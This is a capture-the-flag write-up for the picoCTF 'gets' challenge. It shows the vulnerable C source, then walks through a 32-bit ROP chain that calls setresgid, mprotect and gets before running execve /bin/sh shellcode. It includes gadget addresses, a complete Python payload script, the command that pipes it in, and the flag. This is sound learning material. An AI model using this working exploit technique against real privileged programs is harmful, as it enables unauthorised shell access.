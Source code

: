 ## exploit

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

The vuln program is an  elf 32-bit file statically linked.
With checksec I discovered NX bit enabled with no canary so we can exploit this program in very different ways.

ASLR is enabled.

Obviusly I focused on vuln function.

I decided for this exploit to make a rop chain that:
* call setresgid with correct id in order to drop the right privileges to read the flag file
* call `mprotect` function in order to get bss section `RWX`
* call `gets` function and pass shellcode in the area passed as argument to mprotect function
* insert shellcode via stdin


from ropper I selected one gadget that simply performs 3 `pop` and one `ret`, in order to have the right stack layout for each functions above.

So here some addresses: 
```
	0806cc40 - setresgid
	0806f050 - pop pop pop ret gadget - used between the calls to clean stak layout.
	0806e0f0 - mprotect
	0804f120 - gets
```

To bypass NX bit I decided to makes the first 0x100 bytes of the bss rwx starting from `0x080e0000`.

The next gets function takes this address as arguments and via stdin passed the shellcode that simply execve `/bin/sh`.

Gets function will reads a line from stdin until `0x0a` is reached, so to pass the shellcode I simply insert a `0x0a` byte between rop string and shellcode.



Here `att.py` file:


```python

a="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x40\xcc\x06\x08"*2+"\x50\xf0\x06\x08"+"\xe8\x03\x00\x00"*3+"\xf0\xe0\x06\x08"+"\x50\xf0\x06\x08"+"\x00\xb0\x0e\x08" + "\x00\x01\x00\x00" + "\x07\x00\x00\x00"+"\x20\xf1\x04\x08"+"\x00\xb0\x0e\x08"*4+"\x0a"
a+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print(a)
```

```bash
$ (python /tmp/a/att.py;cat) |  ./gets
```

##### flag: picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cfdfc687}














